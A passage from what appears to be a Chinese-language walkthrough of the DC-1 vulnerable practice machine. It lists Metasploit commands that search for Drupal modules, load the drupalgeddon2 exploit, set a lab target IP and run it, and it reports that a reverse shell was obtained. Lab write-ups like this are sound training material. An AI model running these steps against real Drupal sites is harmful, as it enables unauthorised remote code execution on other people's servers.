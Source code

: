 ```bash
$ sudo msfdb init && msfconsole
$ search Drupal
```

选择模块

![image-20210209162830810](靶机DC-1/image-20210209162830810.png)

然后挨着试,可以有限选择Rank为excellent的,且更新时间靠后的

这里我们用了2018年的

```bash
$ use exploit/unix/webapp/drupal_drupalgeddon2 
$ show options
$ set RHOSTS 192.168.192.139
$ exploit 或者 run
```

成功反弹shell

![image-20210209164040118](靶机DC-1/image-20210209164040118.png)
